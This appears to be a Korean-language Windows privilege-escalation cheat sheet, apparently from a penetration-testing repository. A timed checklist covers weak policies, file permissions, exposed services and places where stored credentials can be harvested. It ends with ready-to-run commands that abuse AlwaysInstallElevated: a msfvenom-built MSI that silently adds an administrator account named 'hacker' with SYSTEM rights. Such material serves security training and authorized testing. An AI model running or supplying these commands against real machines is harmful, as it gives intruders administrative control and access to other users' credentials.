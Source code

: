 ## 📋 단계별 체크리스트

### Phase 1: 시스템 정책 및 설정 (3분)

- [ ] **AlwaysInstallElevated**: MSI 패키지 관리자 권한 설치
- [ ] **자동 로그온**: 레지스트리에 저장된 평문 패스워드
- [ ] **UAC 설정**: UAC 비활성화 또는 약한 설정
- [ ] **패스워드 정책**: 약한 패스워드 정책 설정
- [ ] **계정 잠금 정책**: 브루트포스 공격에 취약한 설정

### Phase 2: 파일 시스템 권한 (4분)

- [ ] **Program Files 권한**: 프로그램 설치 디렉토리 쓰기 권한
- [ ] **System32 권한**: 시스템 파일 디렉토리 권한 오류
- [ ] **사용자 디렉토리**: 다른 사용자 홈 디렉토리 접근 권한
- [ ] **임시 디렉토리**: Temp 디렉토리 권한 설정
- [ ] **웹 루트**: IIS 웹 루트 디렉토리 권한

### Phase 3: 서비스 및 네트워크 (3분)

- [ ] **네트워크 공유**: 익명 접근 가능한 공유
- [ ] **방화벽 설정**: 방화벽 비활성화 또는 약한 규칙
- [ ] **Windows Defender**: 안티바이러스 비활성화
- [ ] **원격 접근**: RDP, WinRM 등 원격 서비스 설정
- [ ] **데이터베이스**: SQL Server, MySQL 등 기본 설정

### Phase 4: 자격 증명 및 민감 정보 (3분)

- [ ] **저장된 자격 증명**: Windows Credential Manager
- [ ] **히스토리 파일**: PowerShell, CMD 히스토리
- [ ] **설정 파일**: 애플리케이션 설정 파일의 패스워드
- [ ] **로그 파일**: 로그에 남겨진 민감 정보
- [ ] **백업 파일**: 설정 백업 파일들

## 🎯 발견별 즉시 익스플로잇

### 🚨 AlwaysInstallElevated 악용 (즉시 SYSTEM)

```cmd
:: 1. 설정 확인 (둘 다 1이어야 함)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

:: 2. MSI 패키지 생성 (msfvenom)
msfvenom -p windows/adduser USER=hacker PASS=password123 -f msi -o adduser.msi

:: 3. MSI 설치 (자동으로 SYSTEM 권한)
msiexec /quiet /qn /i adduser.msi

:: 4. 새 계정 확인
net user hacker
net localgroup administrators
```
